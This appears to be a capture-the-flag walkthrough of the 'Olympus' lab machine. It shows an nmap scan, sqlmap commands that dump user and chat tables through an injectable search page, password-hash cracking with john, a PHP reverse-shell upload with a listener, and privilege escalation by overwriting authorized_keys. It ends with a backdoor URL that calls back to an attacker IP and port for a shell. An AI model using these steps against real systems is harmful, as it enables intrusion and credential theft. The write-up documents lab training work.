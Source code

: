 ```yaml
---
title: "Olympus"
date: 2023-08-14T17:07:49+05:30
draft: false
---
```




# **Scanning:-**

## **Nmap:-**

# nmap -A -T4 -p- [ IP ]

```html
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 0a:78:14:04:2c:df:25:fb:4e:a2:14:34:80:0b:85:39 (RSA)
|   256 8d:56:01:ca:55:de:e1:7c:64:04:ce:e6:f1:a5:c7:ac (ECDSA)
|_  256 1f:c1:be:3f:9c:e7:8e:24:33:34:a6:44:af:68:4c:3c (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Olympus
|_http-server-header: Apache/2.4.41 (Ubuntu)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=7/18%OT=22%CT=1%CU=33277%PV=Y%DS=2%DC=T%G=Y%TM=62D505F
OS:6%P=x86_64-pc-linux-gnu)SEQ(SP=FE%GCD=1%ISR=101%TI=Z%CI=Z%II=I%TS=A)OPS(
OS:O1=M505ST11NW7%O2=M505ST11NW7%O3=M505NNT11NW7%O4=M505ST11NW7%O5=M505ST11
OS:NW7%O6=M505ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)ECN(
OS:R=Y%DF=Y%T=40%W=F507%O=M505NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS
OS:%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=
OS:Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=
OS:R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T
OS:=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=
OS:S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

# **/etc/hosts**

![Untitled](/olympus/Untitled.png)

![Untitled](/olympus/Untitled%201.png)

# **olympus.thm**

![Untitled](/olympus/Untitled%202.png)

# **enumeration**

![Untitled](/olympus/Untitled%203.png)

# Visit Olympus.thm

```html
**http://olympus.thm/~webmaster/**
```

![Untitled](/olympus/Untitled%204.png)

# Exploit

```html
https://www.exploit-db.com/exploits/48734
```

# SQL injection

```html
	sqlmap -u "http://olympus.thm/~webmaster/search.php" --data="search=1337*&submit=" --dbs --random-agent -v 3
```

![Untitled](/olympus/Untitled%205.png)

```html
sqlmap -u "http://olympus.thm/~webmaster/search.php" --data="search=1337*&submit=" -D olympus --random-agent -v 3 --batch --tables
```

![Untitled](/olympus/Untitled%206.png)

```html
sqlmap -u "http://olympus.thm/~webmaster/search.php" --data="search=1337*&submit=" -D olympus --random-agent -v 3 --batch -T users --dump
```

![Untitled](/olympus/Untitled%207.png)

# **Cracking Hashes**

```html
sudo john --wordlist=/usr/share/wordlists/rockyou.txt ./hash
```

![Untitled](/olympus/Untitled%208.png)

# **Login**

![Untitled](/olympus/Untitled%209.png)

![Untitled](/olympus/Untitled%2010.png)

# **Sub domain**

![Untitled](/olympus/Untitled%2011.png)

**Let’s add subdomain in hosts** 

# Visit chat.Olympus.thm

![Untitled](/olympus/Untitled%2012.png)

# **Login**

**Reuse the old credentials which we found earlier**

![Untitled](/olympus/Untitled%2013.png)

# **Reverse Shell**

**Send a php reverse shell file.**

![Untitled](/olympus/Untitled%2014.png)

**We cannot access the file by the original name.The file name changed after the files upload.Let’s use SQL injection again to find the name of the file.**

**Filname:-**

```html
sqlmap -u "http://olympus.thm/~webmaster/search.php" --data="search=1337*&submit=" -D olympus --random-agent -v 3 --batch --tables
```

![Untitled](/olympus/Untitled%2015.png)

```html
sqlmap -u "http://olympus.thm/~webmaster/search.php" --data="search=1337*&submit=" -D olympus --random-agent -v 3 --batch -T chats --dump
```

![Untitled](/olympus/Untitled%2016.png)

Exploiting:-

Start Listener:-

```html
sudo pwncat-cs -l -p 1234
```

Visit the link:-

```html
http://chat.olympus.thm/uploads/1323f6d43cd467f78da284dee8106534.php
```

![Untitled](/olympus/Untitled%2017.png)

# Local Privilege Escalation:-

![Untitled](/olympus/Untitled%2018.png)

**Generate ssh key:-**

```html
ssh-keygen
```

![Untitled](/olympus/Untitled%2019.png)

**Copy the id_rsa.pub to the victim machine**.

![Untitled](/olympus/Untitled%2020.png)

**Overwrite:-**

**Run the cputils and Select the id_rsa.pub and set the target to /home/zeus/.ssh/authorized_keys**

![Untitled](/olympus/Untitled%2021.png)

**ssh login as zeus:-**

![Untitled](/olympus/Untitled%2022.png)

# Root:-

![Untitled](/olympus/Untitled%2023.png)

**Let’s Visit the php page:-**

![Untitled](/olympus/Untitled%2024.png)

**Login using the password which found inside the php file.**

![Untitled](/olympus/Untitled%2025.png)

![Untitled](/olympus/Untitled%2026.png)

**Start Listener:-**

Set Ip=[your ip]&port=[listener port]

```html
http://10.10.194.107/0aB44fdS3eDnLkpsz3deGv8TttR4sc/VIGQFQFMYOST.php?ip=10.18.8.246&port=4321
```

![Untitled](/olympus/Untitled%2027.png)

**We got shell:-**

![Untitled](/olympus/Untitled%2028.png)

![Untitled](/olympus/Untitled%2029.png)
